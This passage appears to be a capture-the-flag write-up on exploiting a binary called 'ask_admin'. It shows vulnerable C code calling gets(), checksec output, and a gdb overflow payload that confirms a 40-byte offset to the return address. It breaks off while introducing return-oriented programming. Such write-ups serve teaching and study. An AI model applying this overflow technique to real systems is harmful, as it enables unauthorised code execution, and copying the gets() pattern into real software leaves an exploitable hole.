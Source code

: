             //Note: this is too risky... we'll find another way
            /*
            setuid(0);
            execve("/bin/sh");
            */
            puts("This program should not be used anymore.\nPress Enter to continue");
            gets(buffer); 
    }
The admin initially wanted to give someone extended permissions, and finally commented the code.
Also, we can see there is a buffer overflow opportunity here : there is a call to _gets_ that we may exploit.

Let's retrieve this binary locally. We can analyse it with checksec

    pwn checksec ask_admin
    [*] '/root/ask_admin'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

    file ask_admin
    ask_admin: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=8690ce8521e9cdc21d0313c4ebdbaf13fad4078a, not stripped, too many notes (256)

Partial RELRO, and No PIE. And no possibility to return to libc.

### Validate buffer overflow
First, let's see if we can exploit this buffer overflow.
The offset to exploit the instruction pointer should be 32 + 8 = 40, and we can easily check this, with gdb

    (gdb) run <<< $(python -c "print('a'*32 + 'b'*8 + 'c'*8)")
    Starting program: /root/ask_admin <<< $(python -c "print('a'*32 + 'b'*8 + 'c'*8)")
    This program should not be used anymore.
    Press Enter to continue
    
    Program received signal SIGSEGV, Segmentation fault.
    0x0000000000400b8e in main ()
    (gdb) info registers rbp
    rbp            0x6262626262626262  0x6262626262626262

The rbp register contains only b's, and the returning address lies just after.
Also, we can see that checksec was wrong: we have a segmentation fault, so there is no canary here! 
### Exploiting the buffer overflow : ROP
ROP (Return-Oriented programming) is an exploit technique that allows us to pick some instructions here and there from the program itself (or its dependencies) to achieve what we want.
These instructions are named "gadgets", and a gadget generally looks like this:

    asm instruction 1;
    asm instruction 2;
    ...
    ret;
